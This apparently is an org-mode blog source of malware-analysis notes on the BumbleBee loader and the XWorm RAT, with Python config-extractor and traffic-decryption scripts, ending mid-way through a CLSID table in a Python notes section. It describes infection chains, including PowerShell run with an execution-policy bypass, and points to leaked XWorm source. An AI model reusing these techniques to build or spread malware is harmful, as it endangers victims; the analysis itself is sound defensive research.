#+hugo_base_dir: ../
#+hugo_section: articles
#+hugo_paired_shortcodes: %sidenote

* DONE BumbleBee notes 🐝                                :@RE:extractor:loader:
SCHEDULED: <2023-03-29 mer.>
:PROPERTIES:
:EXPORT_FILE_NAME: bumblebee
:END:

#+begin_description
BumbleBee is categorized as a **Loader**, the malware is used by Initial Access Brokers to gain access
in targeted companies. This article aims to summarizing the different TTPs observed in campaigns
distributing BumbleBee and provides a script to extract its configuration.
#+end_description

** TL;DR BumbleBee

The loader delivers diverse payloads (/e.g: Cobalt Strike, ransomware, etc/), the operators of BumbleBee have been named /EXOTIC LILY/ by the TAG in a report published in March 2022.
#+begin_sidenote
Google TAG article mentionned BumbleBee Loader (/e.g:/ The user-agent set to bumblebee, hence dubbed BUMBLEBEE.
https://blog.google/threat-analysis-group/exposing-initial-access-broker-ties-conti/
#+end_sidenote
Moreover, similarities with other loaders in terms of operation have been noticed notably with IcedID and Emotet.
Code similarty (/hook installation/) with Trickbot have been observed and explained in the post [[https://elis531989.medium.com/the-chronicles-of-bumblebee-the-hook-the-bee-and-the-trickbot-connection-686379311056][The chronicles of Bumblebee: The Hook, the Bee, and the Trickbot connection]].
The malware is well documented by now (/March 2023/) as evidenced by the number of reports on [[https://malpedia.caad.fkie.fraunhofer.de/details/win.bumblebee][malpedia]]. 

** BumbleBee capabilities
The malware has a custom unpacking mechanism, it manipulates hooks to setup its execution chain,
the loader uses multiple environment detection techniques because of the complete integration of the project [[https://github.com/LordNoteworthy/al-khaser][al-khaser]]
#+begin_sidenote
al-khaser is a PoC "malware" application with good intentions that aims to stress your anti-malware system. It performs a bunch of common malware tricks with the goal of seeing if you stay under the radar.
#+end_sidenote
. It communicates with its command and control over HTTP. Since August 2022 the malware embeds a list of IP addresses in its configuration,
some of them are legitimate IP addresses, this technique is also used by other malware such as Emotet and Trickbot.

BumbleBee command and control IP addresses, port and the bot (or botnet) identifier are stored in the =.data= section, obfuscated with the /RC4/ encryption algorithm. A script to extract and deobfuscate
them is provided at the end of this post.

** Campaigns file format
First malspam campaign which delivered BumbleBee contains a web link to a protected ZIP archive.
1. The archive contains an ISO file;
2. The ISO contains a LNK file and a DLL file;
3. The LNK executes =rundll32.exe= to invoke the embedded DLL;

#+name: fig__post_subtrees_collapsed
#+caption: BumbleBee infection chain with ISO file


This model of campaign was used for months. During the summer of 2022, actors updated the disk image format from ISO to VHD.
Content of disk image (/VHD/) changed too, the DLL is no more stored as a file, but it is embed obfuscated in a PowerShell script. The script is executed by
the LNK with the *execution policy* set to *bypass*. The BumbleBee's DLL is stored in the PowerShell script in obfuscated strings (/e.g:/ =$elem30=$elem30.$casda.Invoke(0,"H")=).
After strings replacement, the base64 encoded variable is decoded, decrompressed (=ungzip=) and invoked (/e.g:/ =scriptPath | iex=).

#+name: fig__post_subtrees_collapsed
#+caption: BumbleBee infection chain with VHD file


/NB: File sharing service used to deliver BumbleBee change regulary e.g.: WeTransfer, Onedrive, Smash, etc.
Details of a campaign using onedrive file sharing website are written in the article: [[https://0xtoxin-labs.gitbook.io/malware-analysis/malware-analysis/bumblebee-docusign-campaign][Bumblebee DocuSign Campaign]]./

*Examples IOCs*:
- ISO: [[https://bazaar.abuse.ch/sample/8695f4936f2942d322e2936106f78144f91602c7acace080e48c97e97b888377/][SHA-256: 8695f4936f2942d322e2936106f78144f91602c7acace080e48c97e97b888377]]
- VHD: [[https://bazaar.abuse.ch/sample/e9a1ce3417838013412f81425ef74a37608754586722e00cacb333ba88eb9aa7][SHA-256: e9a1ce3417838013412f81425ef74a37608754586722e00cacb333ba88eb9aa7]]

** Configuration extractor
As introduced above, the configuration is stored encrypted with the RC4 algorithm.
#+begin_sidenote
RC4: Rivest Cipher 4, also known as ARC4: https://en.wikipedia.org/wiki/RC4
#+end_sidenote
The key is in cleartext in the binary and its length is repeatedly (for BumbleBee case) fixed to _10 characters_.

Here is the two functions that implement RC4 algorithm in BumbleBee:

#+name: fig__post_subtrees_collapsed
#+caption: BumbleBee implemenation of PRGA of RC4 algorithm


#+name: fig__post_subtrees_collapsed
#+caption: BumbleBee implementation of KSA of RC4 algorithm


The key is stored at the end of the blob of data containing the encrypted list of IP addresses.
After analysing few samples of BumbleBee, it appears that the blob of data containing the IP addresses is always *4105 bytes* long (/plus one null byte/) which is
a pattern to look for in the DLL for a C2 extractor.

#+name: fig__post_subtrees_collapsed
#+caption: Location of the blob and the RC4 key


The script below attempts to loop over data until a blob matches the blob size, then it extracts the RC4 key (the last 10 bytes of the blob)
to finally decrypt the data.

#+caption: BumbleBee C2 extractor
#+BEGIN_SRC python -n
  from cryptography.hazmat.primitives.ciphers import Cipher
  from cryptography.hazmat.primitives.ciphers.algorithms import ARC4

  def decrypt_rc4(key: bytes, ciphertext: bytes) -> bytes:
      """Decrypt RC4 encrypt data, `pip install cryptography`"""

      algorithm = ARC4(key)
      cipher = Cipher(algorithm, mode=None)
      decryptor = cipher.decryptor()
      cleartext = decryptor.update(ciphertext)

      return cleartext

  def get_bumblebee_c2(data: bytes) -> bytes:
      """
      Command and Control are stored at the end of the .data section,
      the configuration of the obfuscated C2 and its associated RC4
      are stored in the same blob with a fixed lenght of
      4105 plus one null byte (4106).
      !\xac\xd2\xfe=;\x87\x94\xebP\x8e@\x08}\x00/^I\xd4\x86\xaf\xd2\x14-
      \x16\x89A\xa9uT\x00\xbduC\xb7\x9e~\x19\xac\x9f\xb4\x0f\xae>\xcc
      \x96S]\xb56\x93C\x9d*p\xed\xc9\x04:Oew\xc3*X`:a\xe0T\x8e\x93>\xf9
      \xf8\xe2\x17Q\x15b,8\xa8[\xf5N\x93\xffMM]\x8d\xec\xde\x13\x95z\xc3
      ...
      ...
      ... <redatacted> ...
      \xd4\x00\xa1xZ:\x1e\x90\x00X\xea\xca\x0c\'\xee\xffOR5tw\xc0I\x86R"!
      \xf8\xa3\x87\xc8\x16Mo_5\x82_\x81\x9f<RC4 key composed by 10 bytes>
      """

      c2 = b""

      for blob in map(lambda x: x.strip(b"\x00"), data.split(b"\x00" * 4)):
	  if len(blob) == 4106:
	      key = blob[-10:]
	      ciphertext = blob[:-10]
	      c2 = decrypt_rc4(key, ciphertext)
	      c2 = c2.replace(b"\x00", b"")
	      print(f"BumbleBee Command and Control IoCs: {c2}")

      return c2

  if __name__ == "__main__":
      import sys

      with open(sys.argv[1], "rb") as f:
	  get_bumblebee_c2(f.read())
#+END_SRC

/PS: Tested with the package =cryptography= with the version: =3.4.8=./

Go head and re-use, adapt the script for your needs!

** Resources
- https://blog.google/threat-analysis-group/exposing-initial-access-broker-ties-conti/
- https://elis531989.medium.com/the-chronicles-of-bumblebee-the-hook-the-bee-and-the-trickbot-connection-686379311056
- https://malpedia.caad.fkie.fraunhofer.de/details/win.bumblebee
- https://0xtoxin-labs.gitbook.io/malware-analysis/malware-analysis/bumblebee-docusign-campaign

* DONE Focus on XWorm obfuscation 🪱                  :@RE:RAT:dotnet:campaign:
SCHEDULED: <2023-06-07 mer.>
:PROPERTIES:
:EXPORT_FILE_NAME: xworm-deobfuscation
:END:

#+begin_description
*XWorm* is a *Remote Access Trojan* (/RAT/) developed in .NET, the malware is mostly spread via
phishing campaigns using homemade or opensource packing tools. Note, that some versions of the source code have *leaked*
on Cybercrime forums and also on Telegram channels. This analysis focuses on the XWorm version 3.0.
#+end_description

** TL;DR XWorm
The malware has many functionalities: Virtual environment detection, command execution, file download/upload, persistent after reboot, keylogging, etc...
An interesting feature of the RAT is the plugin configuration; attackers can
configure plugins that are downloaded and executed by the RAT during the infection.
The plugins are mainly DLL in .NET, the last section explains how to extract XWorm plugins from network capture.

The next sections detail how the RAT managed its configuration deobfuscation, then how the Command and Control (/C2/) communication works.

Links to download the sample used for this analysis:
- [[https://bazaar.abuse.ch/sample/6f2e22d541680c151da164b02f916a3d72da0517b2f052f7356d05e8b374690b/][MalwareBaazar: SHA256-6f2e22d541680c151da164b02f916a3d72da0517b2f052f7356d05e8b374690b]]
- [[https://tria.ge/230227-la7fkach56/behavioral1][Tria.ge sandbox]]

The RAT have been spotted at the end of November 2022 distributed in malspam campaigns, as reported in this tweet:

#+begin_export html
<blockquote align="center" class="twitter-tweet">
Most people don&#39;t tag their precise location in Tweets, so we&#39;re removing this ability to simplify your Tweeting experience. You&#39;ll still be able to tag your precise location in Tweets through our updated camera. It&#39;s helpful when sharing on-the-ground moments.
&mdash; Twitter Support (@TwitterSupport) <a href="https://twitter.com/0xToxin/status/1597247779084337152?ref_src=twsrc%5Etfw">June 18, 2019</a></blockquote> 
#+end_export

One reason of the rise of XWorm observed in the wild could be the leak of the source code:
- XSS forum: =xss.]is/threads/75837/=;
- Shinyenigma Github repository: [[https://github.com/Shinyenigma/XWorm-RAT][Shinyenigma/XWorm-RAT]].

** XWorm data obfuscation
The RAT configuration is stored in a class of the namespace =Stub=, where variables value are encoded in base64, in this version of the sample namespaces, classes
and variables names are randomized to slow down the analysis, however, the structure of the code remains the same as clear sample!
This naming randomization is becoming more and more popular amoung threat actors that have XWorm in their arsenal. 

#+name: fig__post_subtrees_collapsed
#+caption: XWorm configuration decryption using AES (ECB No padding)


XWorm first deobufscates its configuration, it initiates a =CryptServiceProvider=,
then the RAT compute the *MD5* hash of a variable (named =Mutex=) located in its configuration 
class. Finally the hash is manipulated (oddly 🙃) to create the decryption key used to decrypt
the rest of configuration (host, port, etc.). 

XWorm uses *Rijndael*
#+begin_sidenote
The Advanced Encryption Standard (AES), also known by its original name Rijndael
https://en.wikipedia.org/wiki/Advanced_Encryption_Standard
#+end_sidenote
encryption in ECB (/Electronic CodeBook/) mode, no IV (/Initial Vector/) is required here.
To create the key, the malware creates the MD5 hash of a variable copies the 8 first bytes to store them at the beginning of a new allocated array (/of 16 bytes; the
decryption key length/), then re-copies these same 8 bytes to the key array but not after the 8 first bytes but from the 7^th byte to the 15 byte.
The last byte (16^th) is zero (due to the array initialization). The figure below schematizes how the key is built.

#+begin_src text
+----------+  Base64 decode    +--------+
| Variable +------------------>| Array  |
+----------+                   +-----+--+
                                     |
                                     +-MD5
                                     |
                               +-----v--------------------------+
                               |dfe3ee833129588467dcf63d547b5806|
                               +--------------------------------+
                               0               8                16 (bytes)
                               + -----+------- +
                                      |  Copy
                                      +---------------+
                                      |               |
                                      |               v
                                      |       + --------------+
                                      v       |dfe3ee8331295884|
                               +--------------- +
                               |dfe3ee8331295884|
                               +--------------+-+---------------+--+
                               |              |X|               |00|
                               +--------------+-+---------------+--+
                               0              7 8               15 16 (bytes)
#+end_src

/NB:/
- the bytes 7 is overwritten
- the last byte of the key is fill with null byte
- the Rijndael key is 16 bytes long.

Code of the class in charge of the configuration ⤵️
#+begin_details
#+name: fig__post_subtrees_collapsed
#+caption: Configuration class of XWorm (source: DnSpy)
#+begin_src csharp +n :hl_lines 32,42
using System;
using Microsoft.VisualBasic;

// Token: 0x02000007 RID: 7
public class 1155SI5ci4n22Hgtjad9sWuTzrR6TsPd3
{

	public static string 1mDweS2QdR()
	{
		return "1CWdwE8cqZ";
	}

	public static int EzSG3aY6W9()
	{
		return 99534703;
	}

	public static string Kxcu3hu0i2()
	{
		return "3SXF4Z2FNV";
	}

	public static int mOGPU4rRYz()
	{
		return 1112926;
	}

	public static string P9aS8dF2nvwBlMKsX6mGmz9cpNwVvrwuR = "VpmZ71vaW8IbCUUhXaZYmIZ+fg3gEPqzqfEpJeFIWv0=";

	public static string O3fw8tjb6Ybd2xdW1giyBzQmbNOjR0msp = "a6SLXA5CKiTAVsnJwB7XJw==";

	public static string hmapdKWqyxSWCy3WcMMHwiP4mJaWTptDB = "bvUFyfn2d6e7YEJt9/zw/A==";

	public static string iOHL4ozmm3zDihnbDjArk0EELSZcjGaht = "suGMnRXFX/LRVfGLaUEsHA==";

	public static int bq1mI0Edvncwx7ALBYKSeIcOOIBhaoFYg = 3;

	public static string vJsr4si0NzLXgwfc4qHHmiEQitrHJl3Dk = "5D+67sZ9S91x7RZPyaBWwBnRhFtzU62dUOgoP7j7MdQ=";

	public static string xDJM0Hxvl8n38SrNt95dqrkiScRfNClzh = "%AppData%";

	public static string uVIC8wouZBTVmqNmkP5u6gKlFXjOtuSz8 = "FIubOp8mcEdS0i5b";

	public static string w4IoWC1BczHdJNaHCSWko7r27h7MJfJJM = Interaction.Environ("temp") + "\\Log.tmp";
}
#+end_src
#+end_details

In this version of the RAT variables name are obfuscated, the two highlighted variables are the communication key (first variable from the top)
and the second one is what was named =Mutex=. The mutex is the variable holding the base string
used to build the decryption key for the configuration. The variable holding the key used for communication encryption/decryption need
to be first decrypted by the same method used for the rest of the configuration decryption before behing used for the communication.

Once decrypted, the configuration of XWorm is:
| Purpose                   | Value obfuscated                             | Cleartext                   |
|---------------------------+----------------------------------------------+-----------------------------|
| C2 Host                   | VpmZ71vaW8IbCUUhXaZYmIZ+fg3gEPqzqfEpJeFIWv0= | =names-again.at.playit.]gg= |
| C2 Port                   | a6SLXA5CKiTAVsnJwB7XJw==                     | =59741=                     |
| AES key for communication | bvUFyfn2d6e7YEJt9/zw/A==                     | =<123456789>=               |
| Message split pattern     | suGMnRXFX/LRVfGLaUEsHA==                     | =<Xwormmm>=                 |
| Installation name         | 5D+67sZ9S91x7RZPyaBWwBnRhFtzU62dUOgoP7j7MdQ= | =Microsoft OneDrive.exe=    |

Here is the cyberchef [[https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'Hex','string':'dfe3ee833129588467dcf63d547b58dfe3ee833129588467dcf63d547b580600'%7D,%7B'option':'Hex','string':''%7D,'ECB/NoPadding','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=VnBtWjcxdmFXOEliQ1VVaFhhWlltSVorZmczZ0VQcXpxZkVwSmVGSVd2MD0KYTZTTFhBNUNLaVRBVnNuSndCN1hKdz09CmJ2VUZ5Zm4yZDZlN1lFSnQ5L3p3L0E9PQpzdUdNblJYRlgvTFJWZkdMYVVFc0hBPT0KNUQrNjdzWjlTOTF4N1JaUHlhQld3Qm5SaEZ0elU2MmRVT2dvUDdqN01kUT0][recipe]].

** Command and Control Communication
XWorm communications are encrypted with AES algorithm in ECB mode. The RAT uses *raw TCP connection* on a
port defined by the attacker. Exchanged messages are not fully encrypted, in fact the first bytes contains the size
of the message followed by a null bytes (/used as a split pattern/) in cleartext, see the figure below where the size of the message is in black,
the split pattern in red and the encrypted message in blue.

#+name: fig__post_subtrees_collapsed
#+caption: XWorm raw TCP message in hexdump format
#+label: xworm_communication_hexdump


Once the mutex and the communication key are identified you can use this script to deobfuscate the RAT communication.

#+name: fig__post_subtrees_collapsed
#+caption: Python script to decrypt XWorm communication
#+begin_src python +n
  import sys
  import argparse
  import binascii
  import hashlib
  from base64 import b64decode
  from collections import deque
  from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
  from cryptography.hazmat.backends import default_backend

  backend = default_backend()

  def decrypt_XWorm_configuration(mutex: str, configuration: str) -> bytes:
      """configuration are stored in base64, the key used for the
      configuration decryption is the MD5 hash (re-arranged) of the
      variable `Mutex`"""

      md5 = hashlib.md5(mutex.encode())
      md5 = md5.digest()
    
      key = md5[:-1] + md5 + b"\x00"

      decoded_configuration = b64decode(configuration)
    
      decryptor = Cipher(algorithms.AES(key), modes.ECB(), backend).decryptor()

      return decryptor.update(decoded_configuration)
    
    

  def decrypt_XWorm_communication(mutex: str, com_key: str, packet: str):
      """Rijndael decryption of XWorm communcation"""

      clear_com_key = decrypt_XWorm_configuration(mutex, com_key)
      clear_com_key = clear_com_key[:-clear_com_key[-1]]

      hpacket = binascii.unhexlify(packet)
      hpacket = hpacket.split(b"\x00", maxsplit=1)
      size, message = int(hpacket[0]), hpacket[1]

      clear_com_key = hashlib.md5(clear_com_key).digest()
    
      decryptor = Cipher(algorithms.AES(clear_com_key), modes.ECB(), backend).decryptor()
      cleartext = decryptor.update(message)
      cleartext = cleartext[:-cleartext[-1]]

      if len(cleartext) < 1000 and cleartext:
	  print(size, cleartext)

      if not abs(len(cleartext) - size) >= 16 and len(cleartext) > 1000:
	  print(f"Download plugin: {cleartext[:100]}")
	  with open(f"packet-{len(cleartext)}.bin", "wb") as f:
	      f.write(cleartext)

      return False if abs(len(cleartext) - size) >= 16 else True

  def main(mutex: str, com: str):
      """Main function to decrypt XWorm communication"""
    
      queue = deque(map(lambda x: x.replace("\n", ""), sys.stdin.readlines()))

      while queue:
	  try:
	      packet = queue.popleft()
	      if not decrypt_XWorm_communication(mutex, com, packet):
		  queue.insert(0, f"{packet}{queue.popleft()}")
	  except Exception as err:
	      if queue:
		  queue.insert(0, f"{packet}{queue.popleft()}")

  if __name__ == "__main__":
      # mutex = "FIubOp8mcEdS0i5b"
      # com = "bvUFyfn2d6e7YEJt9/zw/A=="

      parser = argparse.ArgumentParser("Script to decrypt XWorm communication")
      parser.add_argument("-m", "--mutex", help="Mutex holding the configuration decryption key")
      parser.add_argument("-c", "--com", help="Communication key (encrypted version)")

      args = parser.parse_args()

      main(mutex=args.mutex, com=args.com)
#+end_src

To dump the XWorm messages in cleartext from a PCAP, use the following command:

#+begin_src bash
   tshark -r /tmp/dump.pcapng -Y "tcp.port == 3395" -e tcp.payload -Tjson |
       jq -r ".[]._source.layers[][]" |
       python3 decrypt_xworm_com.py --mutex="FIubOp8mcEdS0i5b" --com="bvUFyfn2d6e7YEJt9/zw/A=="
#+end_src
/This sample of XWorm communicates on port =3395=/.

#+name: fig__post_subtrees_collapsed
#+caption: Output of XWorm PCAP decryption by the Python script
#+begin_src text
  b'INFO<Xwormmm>9623CE2085896DD4BD55<Xwormmm>Admin<Xwormmm> Windows 10 Pro 64bit<Xwormmm>XWorm V3.0<Xwormmm>23/02/2023<Xwormmm>False<Xwormmm>True<Xwormmm>False<Xwormmm>None'
  b'PING!'
  b'plugin<Xwormmm>179DCD0BAD17DB8E467A40D7B57437461CDC3263090966A687BDD40B279E4DF2<Xwormmm>0'
  b'sendPlugin<Xwormmm>179DCD0BAD17DB8E467A40D7B57437461CDC3263090966A687BDD40B279E4DF2
	...
#+end_src

** XWorm plugins
As introduced, XWorm has the capability to download and execute plugins. This mechanism is simple,
here is its workflow:
1. The C2 send available plugins: =plugin<Xwormmm>Id of the plugin<Xwormmm>=
2. The RAT ask the C2 to send the plugin: =sendPlugin<Xwormmm>Id of the plugin=
4. The C2 send the plugin: =savePlugin<Xwormmm>Id of the plugin<Xwormmm>\x00\xc2\x07\x00<DLL .NET >=

Referred to [[xworm_communication_hexdump]] where the last packet (in the figure) received by the infected host has a size of =420736= bytes,
in fact this is a plugin sent by the C2.
This sample of XWorm downloads a plugin name /Recover.dll/ with the following [[https://bazaar.abuse.ch/sample/179dcd0bad17db8e467a40d7b57437461cdc3263090966a687bdd40b279e4df2][SHA-256: 179dcd0bad17db8e467a40d7b57437461cdc3263090966a687bdd40b279e4df2]],
the plugin attempts to loot passwords and other authentication items.

The script dumps messages whose size exceeds 1000 bytes into a file, which is useful to dump XWorm plugins downloaded from the C2.

* DONE Python 🐍                                                      :@dev:python:
SCHEDULED: <2023-11-24 Fri>
:PROPERTIES:
:EXPORT_FILE_NAME: python
:EXPORT_HUGO_ALIASES: /notes/python/
:EXPORT_HUGO_AUTO_SET_LASTMOD: t
:END:

#+begin_description
All notes related to Python goes here
#+end_description

** Base64 custom alphabet
Here's a brief Python code snippet for decoding base64 data that uses a non-standard alphabet.
The [[https://blog.sekoia.io/darkgate-internals/][Darkgate]] sample was observed to use this custom alphabet.

#+begin_src python :session :exports both
  import base64

  def custom_b64_decode(s):
       custom_base64 = "KHkFLg9RnhcZNSDl1TsOj2JveVUpfC4Bq67XyIbm5Q8EGi3A=Madwr0uYzt+oWPx"
       std_base64chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789/="
       o = str(s).translate(str(s).maketrans(custom_base64, std_base64chars))
       return base64.b64decode(o)

  custom_b64_decode("jrIO2L2S")
#+end_src

#+results:
: b'SYSTEM'

** PE resources extraction with pefile
Snippet of code to read each resource of a PE:
#+begin_src python
  pe = pefile.PE("<path to PE>")

  offset: int = 0
  size: int = 0
  resource_type: str = ""

  for entry in pe.DIRECTORY_ENTRY_RESOURCE.entries:
      resource_type = str(entry.name)
      for directory in entry.directory.entries:
  	for resource in directory.directory.entries:
  	    offset = resource.data.struct.OffsetToData
  	    size = resource.data.struct.Size
  	    content = pe.get_memory_mapped_image()[offset : offset + size]
            
  	    print(
  		f"read resource {resource_type} at offset 0x{offset:x} on 0x{size:x} bytes"
  	    )
#+end_src

** CLSID identifier <<clsid>>
A Python helper to identify the object (class and interface) from the CLSID or the RIID.
The snippet below is trimmed, the complete script (with the full CLSID table) is available here:

#+begin_export hugo

#+end_export

The =CoCreateInstance= function can create various types of COM objects depending on the CLSID provided.
Here are some examples of what these objects could be:
1. **Standard COM Objects**: These are typical COM objects implementing various functionalities, such as document handling,
   media processing, or system components.
2. **Automation Objects**: Objects that provide OLE Automation interfaces, making them accessible from
    scripting languages like VBScript, JavaScript, and PowerShell.
3. **ActiveX Controls**: These are COM objects that can be embedded in
    applications or web pages to provide interactive features.
4. **Shell Extensions**: COM objects that extend the functionality of the Windows Shell,
   such as custom context menu handlers, icon handlers, or property sheet handlers.
5. **Service Objects**: Objects that provide specific services to other applications, like data access or messaging.

#+begin_sidenote
https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-cocreateinstance
#+end_sidenote

#+caption: CoCreateInstance function prototype
#+begin_src C++
    HRESULT CoCreateInstance(
    [in]  REFCLSID  rclsid,
    [in]  LPUNKNOWN pUnkOuter,
    [in]  DWORD     dwClsContext,
    [in]  REFIID    riid,
    [out] LPVOID    *ppv
  );
#+end_src

#+caption: example of Object creation using the class identifier


#+caption: CLSID export


#+begin_src python :session :exports both
  import struct

  CLSID = {
      "TaskScheduler": "0F87369F-A4E5-4CFC-BD3E-73E6154572DD",
      "ITaskFolderCollection": "79184A66-8664-423F-97F1-637356A5D812",
      "ITaskFolder": "8CFAC062-A080-4C15-9A88-AA7C2AF80DFC",
      "IRegisteredTask": "9C86F320-DEE3-4DD1-B972-A303F26B061E",
      "IRunningTask": "653758FB-7B9A-4F1E-A471-BEEB8E9B834E",
      "IRunningTaskCollection": "6A67614B-6828-4FEC-AA54-6D52E8F1F2DB",
      "ITaskDefinition": "F5BC8FC5-536D-4F77-B852-FBC1356FDEB6",
      "IRegistrationInfo": "416D8B73-CB41-4EA1-805C-9BE9A5AC4A74",
      "ITriggerCollection": "85DF5081-1B24-4F32-878A-D9D14DF4CB77",
      "ITrigger": "09941815-EA89-4B5B-89E0-2A773801FAC3",
      "IRepetitionPattern": "7FB9ACF1-26BE-400E-85B5-294B9C75DFD6",
      "ITaskSettings": "8FD4711D-2D02-4C8C-87E3-EFF699DE127E",
      "IIdleSettings": "84594461-0053-4342-A8FD-088FABF11F32",
      "INetworkSettings": "9F7DEA84-C30B-4245-80B6-00E9F646F1B4",
      "IPrincipal": "D98D51E5-C9B4-496A-A9C1-18980261CF0F",
      "IActionCollection": "02820E19-7B98-4ED2-B2E8-FDCCCEFF619B",
      "IAction": "BAE54997-48B1-4CBE-9965-D6BE263EBEA4",
      "IRegisteredTaskCollection": "86627EB4-42A7-41E4-A4D9-AC33A72F2D52",
      "ITaskService": "2FABA4C7-4DA9-4013-9697-20CC3FD40F85",
      "ITaskHandler": "839D7762-5121-4009-9234-4F0D19394F04",
      "ITaskHandlerStatus": "EAEC7A8F-27A0-4DDC-8675-14726A01A38A",
      "ITaskVariables": "3E4C9351-D966-4B8B-BB87-CEBA68BB0107",
      "ITaskNamedValuePair": "39038068-2B46-4AFD-8662-7BB6F868D221",
      "ITaskNamedValueCollection": "B4EF826B-63C3-46E4-A504-EF69E4F7EA4D",
      "IIdleTrigger": "D537D2B0-9FB3-4D34-9739-1FF5CE7B1EF3",
